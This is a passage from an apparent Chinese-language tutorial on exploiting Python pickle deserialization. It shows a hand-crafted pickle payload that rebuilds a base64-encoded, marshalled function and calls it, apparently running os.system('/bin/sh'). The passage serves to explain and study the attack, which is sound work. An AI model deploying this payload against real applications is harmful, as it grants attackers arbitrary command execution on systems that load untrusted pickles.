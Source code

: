 
[![](https://p3.ssl.qhimg.com/t013db136e81e890b64.png)](https://p3.ssl.qhimg.com/t013db136e81e890b64.png)

要执行其中的`foo()`的话，先解码，然后加载函数：

```
code_str = base64.b64decode(code_enc)
code = marshal.loads(code_str)
func = types.FunctionType(code, globals(), '')
func()
```

[![](https://p5.ssl.qhimg.com/t01a74ed035567bf52d.png)](https://p5.ssl.qhimg.com/t01a74ed035567bf52d.png)

其中引入了types，marshal，base64，globals，globals可以通过`__builtin__.globals` 来调用这个函数，所以根据Pickle的格式要求，我们的Pickle的文件内容应该是这样：

```
ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwAAAAABAAAAAgAAAEMAAABzHQAAAGQBAGQAAGwAAH0AAHwAAGoBAGQCAIMBAAFkAABTKAMAAABOaf////9zBwAAAC9iaW4vc2goAgAAAHQCAAAAb3N0BgAAAHN5c3RlbSgBAAAAUgAAAAAoAAAAACgAAAAAcwUAAABzcy5weXQDAAAAZm9vAwAAAHMEAAAAAAEMAQ=='
tR #base64 结束
tR #marshal 结束
c__builtin__
globals
(tR #globals 结束
S'' 
tR # '' 空字符
(tR. #调用函数
```

[![](https://p4.ssl.qhimg.com/t010db90e175945a3d2.png)](https://p4.ssl.qhimg.com/t010db90e175945a3d2.png)

所有这些执行命令的方式基本都是靠引用其他库，间接引用OS库，来执行命令或者读文件之类的。
